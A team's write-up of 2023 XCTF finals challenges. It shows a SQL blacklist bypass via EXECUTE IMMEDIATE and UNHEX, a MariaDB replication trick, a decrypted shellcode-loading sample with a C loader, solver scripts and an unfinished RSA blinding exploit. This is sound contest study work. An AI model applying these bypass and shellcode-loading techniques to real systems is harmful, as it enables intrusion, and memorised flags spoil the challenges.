





本次2023 XCTFfinals 我们 SU 取得了 第7名 的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次 2023XCTFfinals的 writeup

<!--more-->

## web

### web-dbtrick

#### 0x01 预期解

​

admin.php 中读代码可以发现是从ctf.admin中读取username、password，如果能查询出数据着执行readfile('/flag')

```PHP
#admin.php
<?php
//flag is in /flag 
$con = new PDO($dsn,$user,$pass); 
$sql = "select * from ctf.admin where username=? and password=?"; 
$sth = $con->prepare($sql); 
$res = $sth->execute([$_POST['username'],$_POST['password']]); 
if($sth->rowCount()!==0){ 
    readfile('/flag'); 
}
```

查询数据库版本

```SQL
SHOW VARIABLES LIKE 'version'
Array ( [0] => Array ( [Variable_name] => version [0] => version [Value] => 10.3.38-MariaDB-0ubuntu0.20.04.1 [1] => 10.3.38-MariaDB-0ubuntu0.20.04.1 ) )
```

现在的思路就是获取出admin中的数据，但在测试过程中发现过滤了很多的函数

```php
black list
select
set
GRANTS
create
insert
load
PREPARE
rename
update
HANDLER
updatexml
```

常见的思路几乎全被完全过滤，alter可用，ctf.admin表不存在，考虑需要建表，但在后续的测试中发现rename被过滤导致失败。

‍

考虑写文件查询secure_file_priv参数结果为空，但load关键字也被堵死

```php
show global variables like "secure%";
```

最后考虑到mariadb 数据复制

mariadb 数据复制配置

在`/etc/mysql/my.conf [mysqld]`​块下添加如下三条配置

```conf
[mysqld]
server_id       = 2
secure_file_priv=
log-bin         = mysql-bin
```

* server_id  主从服务器的id不能为同一个，默认情况下都为1
* secure_file_priv mysql文件写权限
* log-bin 二进制日志

[MySQL - binlog日志简介及设置 - hongdada - 博客园 (cnblogs.com)](https://www.cnblogs.com/hongdada/p/10983768.html)

‍

主服务器需执行sql：

```sql
CREATE USER 'm4x'@'%' IDENTIFIED BY '123456';
GRANT REPLICATION SLAVE ON *.* TO 'm4x'@'%';

create database ctf;
CREATE TABLE admin (
    id INT NOT NULL AUTO_INCREMENT,
    username VARCHAR(150) NOT NULL,
    password VARCHAR(150) NOT NULL,
    PRIMARY KEY (id)
);
INSERT INTO admin (username, password) VALUES ('m4x', 'm4x');
```

从服务需执行sql:

```sql
CHANGE MASTER TO
	MASTER_HOST='172.30.3.168',
	MASTER_USER='m4x',
	MASTER_PASSWORD='123456',
	MASTER_LOG_FILE='mysql-bin.000001',
	MASTER_LOG_POS=0;

START SLAVE;
```

主从同步完成后即可在服务器中成功创建出admin表，并且其中的用户名密码都为可控

#### 0x02 清华非预期解法

XCTF 决赛中清华对一道web题的非预期，在该题中过滤了很多的关键字，包括`SELECT`​等，预期解为mariadb主从复制，但清华使用`EXECUTE IMMEDIATE`​绕过了黑名单导致非预期，这里详细来分析一下该种绕过方法。

##### 基础用法

[EXECUTE IMMEDIATE Statement (oracle.com)](https://docs.oracle.com/en/database/oracle/oracle-database/19/lnpls/EXECUTE-IMMEDIATE-statement.html#GUID-C3245A95-B85B-4280-A01F-12307B108DC8)

在 MariaDB 10.0.3 之后，新增了一个名为 `EXECUTE IMMEDIATE`​ 的 SQL 语句，它可以将字符串作为动态 SQL 查询语句执行。这个语句的语法如下：

```sql
EXECUTE IMMEDIATE stmt_string [INTO var_name [, ...]]
```

其中，`stmt_string`​ 是要执行的 SQL 查询字符串，可以包含占位符。`var_name`​ 是可选的参数列表，用于从查询结果中接收值。

例如，下面的代码展示了如何使用 `EXECUTE IMMEDIATE`​ 执行一个简单的 SELECT 查询：

```sql
SET @id = 123;
SET @stmt = CONCAT('SELECT * FROM mytable WHERE id = ', @id);
EXECUTE IMMEDIATE @stmt;
```

在这个例子中，我们将 `@id`​ 变量的值拼接到 SQL 查询字符串中，然后使用 `EXECUTE IMMEDIATE`​ 关键字执行该查询，并输出结果。

##### 绕过分析

具体解题思路参考 The 7th XCTF Finals WEB WP 这篇文章，该题中手工测试出的黑名单如下：

```sql
black list
select
set
GRANTS
create
insert
load
PREPARE
rename
update
HANDLER
updatexml
```

其中过滤了常用的几大关键字，通过`EXECUTE IMMEDIATE`​可以进行绕过

原题中使用的环境为mariadb 10.3.38

```sql
EXECUTE IMMEDIATE 'SELECT * FROM ctf.admin';
```



可以直接执行字符串中的sql语句，在基于这一点的情况下就很容易进行绕过

该题中并没有过滤各种字符串编码，所以我们可以使用如下方法进行绕过

```sql
EXECUTE IMMEDIATE UNHEX('53454c454354202a2046524f4d206374662e61646d696e');
```

将`SELECT * FROM ctf.admin`​转为hex再使用UNHEX方法转换为字符串进行执行



同理，这里也可以使用BASE64之类的进行绕过




### web-signin
React state 前端储存数据 + 后台HTTP3.0

```sql
[1] Username and password store in  React Redux state
```

**https://www.freebuf.com/vuls/304954.html**

> 在引入了Fiber的React（16.8+），会多出 __reactFiber$xxxx 属性，该属性对应的就是这个DOM在React内部对应的FiberNode，可以直接使用child属性获得子节点。节点层级可以从React Dev Tool内查看。通过读取每个FiberNode的 memoizedProps  和 memoizedState  ，即可直接获取需要的Prop和State。在高版本使用React Hooks的项目中，FiberNode的 memorizedState 是一个链表，该链表内的节点次序可以参考该组件源码内 useState 的调用顺序。旧版React，引入的属性是 __reactInternalInstance  。State也是一个Object而非链表，可以方便地看到每个state的名字。

在浏览器安装React Dev Tool，前端获取到state中的账号密码



登入后端使用HTTP3.0 发送请求即可获取到flag

```sql
docker run -it --rm ymuski/curl-http3 curl -Lv https://172.35.3.40/user/home --http3
```
## rev
### rev2 我不是病毒

直接分析exe的话，可以发现关键的逻辑集中在main函数最后return的那个函数中，在sub_140005C80函数中会创建一个进程（要是找不到这个函数的话，先关闭地址随机化，或者自行分析），附加调试之后可以发现这个进程就是python310.dll，所以初步判断这个程序是python打包的exe。

用pyinstxtractor.py直接解包，可以发现有.pyz这样的文件和PYZ-00.pyz_extracted这个文件夹，而且后者中的所有文件都是加密过的

参考[记python逆向 - TLSN - 博客园 (cnblogs.com)](https://www.cnblogs.com/lordtianqiyi/articles/16209125.html)

[[原创\]Python逆向——Pyinstaller逆向-软件逆向-看雪论坛-安全社区|安全招聘|bbs.pediy.com (kanxue.com)](https://bbs.kanxue.com/thread-271253.htm)

可以看到“archive.pyc就是加密的过程，crypto_key是加密的密钥，而我们需要解密.pyz文件”

所以分别反编译两个文件，可以找到CRYPT_BLOCK_SIZE = 16，加密方式是AES，加密密钥是

```text
HelloHiHowAreYou
```

编写解密脚本

```python
import tinyaes
import zlib
 
CRYPT_BLOCK_SIZE = 16
 
# 从crypt_key.pyc获取key，也可自行反编译获取
key = bytes('HelloHiHowAreYou', 'utf-8')
 
inf = open('sign.pyc.encrypted', 'rb') # 打开加密文件
outf = open('sign.pyc', 'wb') # 输出文件
 
# 按加密块大小进行读取
iv = inf.read(CRYPT_BLOCK_SIZE)
 
cipher = tinyaes.AES(key, iv)
 
# 解密
plaintext = zlib.decompress(cipher.CTR_xcrypt_buffer(inf.read()))
 
# 补pyc头(最后自己补也行)

outf.write(b'\x6F\x0D\x0D\x0A\x00\x00\x00\x00\x70\x79\x69\x30\x10\x01\x00\x00')
 
# 写入解密数据
outf.write(plaintext)
 
inf.close()
outf.close()
```

由于PYZ-00.pyz_extracted文件中有太多的文件，再加上我的本地反编译失败，只能用在线网站反编译，次数被限制到了10min一次，所以在做的时候一直没找到真正的加密在哪里。

赛后复现的时候想到了题目描述，目的是找到产品密钥


所以找到了sign.pyc.encrypted文件，解密后

```python
import hashlib as 沈阳
import base64 as 杭州
import ctypes as 蚌埠

def main():
    蚌埠.windll.kernel32.VirtualAlloc.restype = 蚌埠.c_void_p
    福建 = input('%e6%82%a8%e7%9a%84%e8%be%93%e5%85%a5%ef%bc%9a')
                 #您的输入：
    天津 = '9K98jTmDKCXlg9E2kepX4nAi8H0DB57IU57ybV37xjrw2zutw+KnxkoYur3IZzi2ep5tDC6jimCJ7fDpgQ5F3fJu4wHA0LVq9FALbjXN6nMy57KrU8DEloh+Cji3ED3eEl5YWAyb8ktBoyoOkL1c9ASWUPBniHmD7RSqWcNkykt/USjhft9+aV930Jl5VjD6qcXyZTfjnY5MH3u22O9NBEXLj3Y9N5VjEgF2cFJ+Tq7jj92iIlEkNvx8Jl+eH5/hipsonKLTnoLGXs4a0tTQX/uXQOTMBbtd70x04w1Pa0fp+vA9tCw+DXvXj0xmX8c5HMybhpPrwQYDonx7xtS+vRIj/OmU7GxkHOOqYdsGmGdTjTAUEBvZtinOxuR7mZ0r9k+c9da0W93TWm5+2LKNR6OJjmILaJn0lq4foYcfD5+JITDsOD6Vg01yLRG1B4A6OxJ7Rr/DBUabSu2fYf1c4sTFvWgfMV8il6QfJiNMGkVLey1cBPSobenMo+TQC1Ql0//9M4P01sOiwuuVKLvTyDEv6dKO//muVL9S2gq/aZUBWkjj/I5rUJ6Mlt4+jsngmuke9plAjw22fUgz+8uSzn40dhKXfBX/BOCnlwWsMGAefAfoz/XAsoVSG2ioLFmlcYe/WBgaUJEoRUSyv73yiEOTVwIK6EPnDlwRgZZHx2toLu8udpEZ0aKGkex5sn7P8Jf9AbD4/EiQU+FdoJSxGorPSZGvrc4='
    北京 = 沈阳.md5('%e4%ba%91%e5%8d%97'.encode('utf-8')).hexdigest()
                    #云南
    重庆 = 杭州.b64decode(天津)
    河南 = b''
    北京_len = len(北京)
    广州 = list(range(256))
    j = 0
    #初始化s盒
    for i in range(256):
        j = (j + 广州[i] + ord(北京[i % 北京_len])) % 256
        广州[i] = 广州[j]
        广州[j] = 广州[i]
    山东 = 陕西 = 0

    for 河北 in 重庆:
        山东 = (山东 + 1) % 256
        陕西 = (陕西 + 广州[山东]) % 256
        广州[山东] = 广州[陕西]
        广州[陕西] = 广州[山东]
        河南 += bytes([
            河北 ^ 广州[(广州[山东] + 广州[陕西]) % 256]])

    四川 = 蚌埠.create_string_buffer(福建.encode())

    黑龙江 = 蚌埠.windll.kernel32.VirtualAlloc(蚌埠.c_int(0), 蚌埠.c_int(len(河南)), 蚌埠.c_int(12288), 蚌埠.c_int(64))
    蚌埠.windll.kernel32.RtlMoveMemory(蚌埠.c_void_p(黑龙江), (蚌埠.c_ubyte * len(河南)).from_buffer(bytearray(河南)), 蚌埠.c_size_t(len(河南)))
    辽宁 = 蚌埠.windll.kernel32.CreateThread(蚌埠.c_int(0), 
                                        蚌埠.c_int(0), 
                                        蚌埠.c_void_p(黑龙江), #执行的代码
                                        蚌埠.byref(四川),      #参数w
                                        蚌埠.c_int(0), 
                                        蚌埠.pointer(蚌埠.c_int(0)))
    蚌埠.windll.kernel32.WaitForSingleObject(蚌埠.c_int(辽宁), 蚌埠.c_int(-1))
    if 四川.raw == b'%db%1b%00Dy\\C%cc%90_%ca.%b0%b7m%ab%11%9b^h%90%1bl%19%01%0c%eduP6%0c0%7f%c5E-L%b0%fb%ba%f6%9f%00':
        
        print('%e6%98%af%e7%9a%84%ef%bc%81%e4%bd%a0%e5%be%97%e5%88%b0%e4%ba%86%ef%bc%81')
        #是的！你得到了！
        return None
    None('%e4%b8%8d%ef%bc%8c%e5%86%8d%e5%b0%9d%e8%af%95%e6%9b%b4%e5%a4%9a%e3%80%82 %ef%bc%88%e7%ac%91%e8%84%b8%e7%ac%a6%e5%8f%b7%ef%bc%89')
    #不，再尝试更多。 （笑脸符号）
if __name__ == '__main__':
    
    main()

```

变量名应该是被特地修改，降低可读性的，汉字也都经过了URL编码，不过整体逻辑很好理解

先用密钥初始化RC4的S盒，然后RC4解密shellcode，加载shellcode对输入进行处理

解密shellcode

```python
from Crypto.Cipher import ARC4
import base64
import hashlib

cipher = '9K98jTmDKCXlg9E2kepX4nAi8H0DB57IU57ybV37xjrw2zutw+KnxkoYur3IZzi2ep5tDC6jimCJ7fDpgQ5F3fJu4wHA0LVq9FALbjXN6nMy57KrU8DEloh+Cji3ED3eEl5YWAyb8ktBoyoOkL1c9ASWUPBniHmD7RSqWcNkykt/USjhft9+aV930Jl5VjD6qcXyZTfjnY5MH3u22O9NBEXLj3Y9N5VjEgF2cFJ+Tq7jj92iIlEkNvx8Jl+eH5/hipsonKLTnoLGXs4a0tTQX/uXQOTMBbtd70x04w1Pa0fp+vA9tCw+DXvXj0xmX8c5HMybhpPrwQYDonx7xtS+vRIj/OmU7GxkHOOqYdsGmGdTjTAUEBvZtinOxuR7mZ0r9k+c9da0W93TWm5+2LKNR6OJjmILaJn0lq4foYcfD5+JITDsOD6Vg01yLRG1B4A6OxJ7Rr/DBUabSu2fYf1c4sTFvWgfMV8il6QfJiNMGkVLey1cBPSobenMo+TQC1Ql0//9M4P01sOiwuuVKLvTyDEv6dKO//muVL9S2gq/aZUBWkjj/I5rUJ6Mlt4+jsngmuke9plAjw22fUgz+8uSzn40dhKXfBX/BOCnlwWsMGAefAfoz/XAsoVSG2ioLFmlcYe/WBgaUJEoRUSyv73yiEOTVwIK6EPnDlwRgZZHx2toLu8udpEZ0aKGkex5sn7P8Jf9AbD4/EiQU+FdoJSxGorPSZGvrc4='

cipher = bytes(cipher.encode('utf-8'))

arr = base64.b64decode(cipher)    

key = hashlib.md5('云南'.encode('utf-8')).hexdigest()

key = bytes(key.encode('utf-8'))

cipher = ARC4.new(key)

p = cipher.decrypt(bytes(arr))

print(list(p))

```

然后用函数指针加载shellcode

```c
#include <cstdio>
#include <Windows.h>

unsigned char shellcode[] = {
	81, 232, 0, 0, 0, 0, 89, 72, 129, 193, 97, 1, 0, 0, 85, 72, 137, 229, 72, 131, 236, 104, 72, 137, 77, 152, 199, 69, 252, 0, 0, 0, 0, 233, 49, 1, 0, 0, 139, 69, 252, 193, 224, 4, 72, 152, 72, 139, 85, 152, 72, 1, 208, 72, 137, 69, 240, 72, 184, 1, 219, 186, 51, 35, 1, 219, 186, 72, 137, 69, 160, 72, 184, 255, 238, 221, 204, 187, 170, 153, 136, 72, 137, 69, 168, 72, 184, 239, 205, 171, 144, 120, 86, 52, 18, 72, 137, 69, 176, 72, 184, 186, 220, 254, 33, 67, 101, 135, 9, 72, 137, 69, 184, 72, 139, 69, 240, 72, 139, 0, 72, 137, 69, 232, 72, 139, 69, 240, 72, 139, 64, 8, 72, 137, 69, 224, 72, 184, 192, 187, 111, 171, 119, 3, 124, 235, 72, 137, 69, 216, 72, 184, 239, 190, 173, 222, 13, 240, 173, 11, 72, 137, 69, 208, 72, 199, 69, 200, 0, 0, 0, 0, 235, 127, 72, 139, 69, 232, 72, 193, 224, 8, 72, 137, 194, 72, 139, 69, 176, 72, 1, 194, 72, 139, 77, 232, 72, 139, 69, 216, 72, 1, 200, 72, 49, 194, 72, 139, 69, 232, 72, 193, 232, 10, 72, 137, 193, 72, 139, 69, 184, 72, 1, 200, 72, 49, 208, 72, 41, 69, 224, 72, 139, 69, 224, 72, 193, 224, 8, 72, 137, 194, 72, 139, 69, 160, 72, 1, 194, 72, 139, 77, 216, 72, 139, 69, 224, 72, 1, 200, 72, 49, 194, 72, 139, 69, 224, 72, 193, 232, 10, 72, 137, 193, 72, 139, 69, 168, 72, 1, 200, 72, 49, 208, 72, 41, 69, 232, 72, 139, 69, 208, 72, 41, 69, 216, 72, 131, 69, 200, 1, 72, 131, 125, 200, 63, 15, 134, 118, 255, 255, 255, 72, 139, 69, 240, 72, 139, 85, 232, 72, 137, 16, 72, 139, 69, 240, 72, 131, 192, 8, 72, 139, 85, 224, 72, 137, 16, 144, 131, 69, 252, 1, 131, 125, 252, 11, 15, 142, 197, 254, 255, 255, 72, 131, 196, 104, 93, 89, 19, 45, 239, 197, 133, 72, 183, 185, 107, 151, 30, 51, 174, 0, 39, 61, 1, 135, 228, 208, 161, 110, 65, 89, 91, 206, 249, 238, 144, 92, 65, 174, 91, 6, 4, 186, 214, 131, 243, 10, 63, 162, 60, 255, 167, 103, 240, 110, 13, 2, 131, 222, 224, 175, 5, 27, 91, 21, 4, 55, 133, 233, 252, 61, 193, 245, 231, 61, 59, 227, 129, 22, 225, 192, 43, 104, 237, 12, 203, 161, 134, 59, 150, 195, 7, 3, 233, 200, 247, 163, 104, 183, 40, 98, 202, 104, 230, 204, 147, 157, 65, 66, 119, 147, 46, 155, 235, 94, 213, 116, 152, 199, 174, 139, 97, 102, 248, 253, 19, 93, 75, 41, 40, 251, 201, 193, 54, 64, 13, 26, 20, 145, 20, 125, 35, 174, 155, 130, 10, 139, 197, 132, 41, 205, 74, 219, 102, 67, 16, 221, 44, 3, 204, 94, 136, 122, 119, 231, 48, 112, 43, 57, 105, 91, 184, 10, 128, 33, 1, 73, 52, 164, 22, 59, 254, 165, 105, 223, 237, 58, 180, 94, 129, 143, 114, 73, 61, 210, 121, 123, 115, 85
};

int main() {
	PVOID p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (p == NULL) {
		return -1;
	}
	memcpy(p, shellcode, sizeof(shellcode));
	((void(__stdcall*)())(p))();
	return 0;
}
```

用IDA分析得到的exe

第一段shellcode可以分为两个部分，在0x167之前都是对后面部分的SMC，先动态调试，得到解密后的shellcode之后再复制写入ida


```idapython
ida_bytes.patch_bytes（要写入的地址，bytes.fromhex（“解密后的二进制shellcode”））
```

可以得到真正的加密函数


加密主要是将输入中的两个字符拼接在一起然后加密，直接爆破

```c++
#include <iostream>

using namespace std;

int cipher[] = { 219, 27, 0, 68, 121, 92, 67, 204, 144, 95, 202, 46, 176, 183, 109, 171, 17, 155, 94, 104, 144, 27, 108, 25, 1, 12, 237, 117, 80, 54, 12, 48, 127, 197, 69, 45, 76, 176, 251, 186, 246, 159, 0 };

int main() {
	for (int i = 0; i <= 20; i++) {
		unsigned int code = cipher[2 * i] + (cipher[i * 2 + 1] << 8);
		for (int j = 0; j < 127; j++) {
			for (int k = 0; k < 127; k++) {
				unsigned int v8 = 2029;
				unsigned int v9 = (j + (k << 8) % 0xD1EF);
				unsigned int v6 = 1;
				while (v8) {
					if (v8 & 1) {
						v6 = v9 * v6 % 0xD1EF;
					}
					v9 = v9 * v9 % 0xD1EF;
					v8 >>= 1;
				}
				if (v6 == code) {
					printf("%c%c", j, k);
					break;
				}
			}
		}
	}
	return 0;
}

//XCTF{5c7ad71b-6c91-4481-af7a-69726a66aea8}
```


## Misc

### maze

```python
from pwn import *
from hashlib import *
import string
import itertools
#context.log_level="debug"

table = string.ascii_letters + string.digits

io = remote('172.35.3.80',11410)
def proof():
    s1 = io.recvuntil(b'[+] Plz tell me XXXX:')
    p1 = s1.find(b'X+')
    p2 = s1.find(b')')
    p3 = s1.find(b'== ')
    s = s1[p1+2:p2]
    h = s1[p3+3:-1]
    h = h.decode()
    print(h)
    print(s)
    for i in itertools.product(table, repeat=4):
        d = ''.join(i).encode()
        dd = d + s
        #print(dd)
        if sha256(dd).hexdigest() in h:
            print(d)
            io.sendline(d)
            #io.interactive()
            break
proof()
io.recvuntil(b'There is your map of maze:\n')

maze = []
for i in range(750):
    row = io.recvline()[13:].split()
    row = [int(i) for i in row]
    #print(row)
    #print(len(row))
    maze.append(row)

print(len(maze))
print(len(maze[0]))
arr = maze

brr = [[0] * 750 for i in range(0, 750)]

for i in range(0, 750):
    for j in range(0, 750):
        brr[i][j] = arr[i][j]


for i in range(1, 750):
    for j in range(0, 750):
        if j == 0:
            arr[i][j] += max(arr[i- 1][j], arr[i-1][j+1])
        elif j == 749:
            arr[i][j] += max(arr[i-1][j], arr[i- 1][j-1])
        else:
            arr[i][j] += max(arr[i-1][j - 1], max(arr[i-1][j], arr[i-1][j+1]))

print(max(arr[749]))

crr = []
idx = arr[749].index(max(arr[749]))
crr.append(idx)

def has_duplicates(lst):
    return len(lst) != len(set(lst))

for i in range(748, -1, -1):
    if idx == 0:
        if arr[i][idx] > arr[i][idx+1]:
            idx = idx
        else:
            idx = idx + 1
        crr.append(idx)
    elif idx == 749:
        if arr[i][idx] > arr[i][idx-1]:
            idx = idx
        else:
            idx = idx - 1
        crr.append(idx)
    else:
        if arr[i][idx] > arr[i][idx+1]:
            m = idx
        else:
            m = idx + 1
        if arr[i][m] > arr[i][idx-1]:
            m = m
        else:
            m = idx - 1
        idx = m
        crr.append(idx)

crr = crr[::-1]
print('111',io.recvline())

res = ''
sum = 0
for i in range(0, 750):
    res = res + ' ' +str(crr[i])
print(f'res = {res}')
io.sendline(res[1:].encode())
print(io.interactive())
# flag{Y0u_@rE_tHe_G@mE_M@aSter_0f_m@Ze}
```

### shop

```python
import numpy as np
from pwn import remote,context
import hashlib

def get_md5(matrix):
    # 分割成一个1*14和7*14的矩阵
    row1, row2 = matrix[0:1, :], matrix[1:, :]

    # 计算每一行与第一行差的和的绝对值
    result = np.sum(np.abs(row2[1:] - row2[0]), axis=1)
    result = np.array(result)
    min_value = np.min(result)

    # 获取最小值在数组中的位置
    min_indices = np.where(result == min_value)[0] + 1
    # print("最小值{}在result中的位置是矩阵第{}行".format(min_value, min_indices + 1))

    #获取最小值所在矩阵行的值
    row = row2[min_indices]
    # print(row)

    # 找到row1中值为0的位置
    zero_indices = np.where(row1 == 0)

    # 将0位置替换成row中对应位置的值
    row1[zero_indices] = row[zero_indices]
    # print(row1)
    flag = ''.join([str(i) for i in row1[0]])
    # print(flag)
    flag_md5 = hashlib.md5(flag.encode()).hexdigest()
    return flag_md5

while True:
    #context.log_level = "DEBUG"
    r = remote('172.35.3.120',11409)
    r.sendlineafter(b"please?", b"1234")
    for i in range(10):
        r.sendlineafter(b"Please input your good number:", b"0")

    for i in range(20):
        r.sendlineafter(b"Please input your good number:", b"3")
    # r.recvall()
    r.sendlineafter(b"Your answer is(Y/N):", b"y")
    r.recvuntil(b'beginmatrix')
    matrix = r.recvline().strip()
    matrix = r.recvline().strip().decode()
    matrix = matrix.split(',')
    matrix = [int(i.strip('[').strip(']').strip(' ').strip('[').strip(']')) for i in matrix]
    # print((matrix))
    matrix = np.array(matrix)
    matrix = matrix.reshape(8,14)

    r.sendlineafter(b'Now, what is your answer?',get_md5(matrix))
    c = r.recvline()
    if b'flag{' in c:
        print(c)
        break

```


## Crypto

### TSA

只需要向server发送$t^e\cdot c\;mod\;n$即可绕过限制，然后解得$t\cdot flag$，除以$t$就是flag了，exp中$t$取的2：

```python
from Crypto.Util.number import *
from pwn import *

e = 65537

sh = remote('172.35.3.154',10002)
n = int(sh.recvline().decode())
sh.recvuntil(b'>')
sh.sendline(b'1')
